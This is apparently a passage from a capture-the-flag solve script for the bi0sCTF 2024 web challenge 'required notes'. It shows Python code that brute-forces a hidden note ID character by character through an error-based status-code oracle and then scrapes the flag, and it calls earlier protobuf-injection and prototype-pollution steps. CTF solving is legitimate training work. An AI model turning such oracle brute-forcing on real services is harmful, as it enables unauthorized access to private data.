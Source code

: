 ```python
                print(f'[*] Brute forcing character "{character}" | Current leaked flag note ID: {leakedFlagNoteId}', end='\r')
                fullLeakedNoteId = leakedFlagNoteId + character
                response = requests.get(f'{self.baseUrl}{self.SEARCH_NOTE_ID_ROUTE}{fullLeakedNoteId}')

                isCorrectCharacter = True if response.status_code == self.CORRECT_CHARACTER_STATUS_CODE else False
                isIncorrectCharacter = True if response.status_code == self.INCORRECT_CHARACTER_STATUS_CODE else False                        

                if isIncorrectCharacter:
                    isCorrectFinalCharacter = True if response.json()['Message'] == self.CORRECT_FINAL_CHARACTER_MESSAGE else False
                    if isCorrectFinalCharacter:
                        leakedFlagNoteId += character
                        break

                if not isCorrectCharacter:
                    continue

                leakedFlagNoteId += character
                break

        if len(leakedFlagNoteId) != self.FLAG_NOTE_ID_LENGTH:
            print('\n[-] Couldn\'t brute force the flag\'s note ID')
            exit(0)

        self.leakedFlagNoteId = leakedFlagNoteId
        print(f'\n[+] The flag\'s note ID has been brute forced! Note ID: {self.leakedFlagNoteId}')

    def viewFlagNote(self):
        flagNoteId = self.leakedFlagNoteId
        response = requests.get(f'{self.baseUrl}{self.VIEW_NOTE_ROUTE}{flagNoteId}')
        soup = BeautifulSoup(response.text, 'html.parser')

        flagText = soup.find('p').text
        isMatchedFlag = search(self.FLAG_FORMAT_REGEX_PATTERN, flagText)
        if not isMatchedFlag:
            print('\n[-] Couldn\'t view the flag\'s note')
            exit(0)

        flag = isMatchedFlag.group(1)
        print(f'[+] The flag note has been viewed! Here\'s the flag: {flag}')

    def solve(self):
        self.injectPayloadToProtoBufSchema()
        self.pollutePeernameAttributeAddress()

        self.bruteForceNoteIdViaErrorBasedOracle()
        self.viewFlagNote()

def argumentParser():
    parser = argparse.ArgumentParser(description='A solve script for web challenge "required notes" at bi0sCTF 2024.')
    parser.add_argument('-b', '--baseurl', metavar='<Base URL>', help='The instance\'s base URL. For example: https://ch15340143281.ch.eng.run', required=True)

    return parser.parse_args()

if __name__ == '__main__':
    args = argumentParser()
    solver = Solver(args.baseurl)
```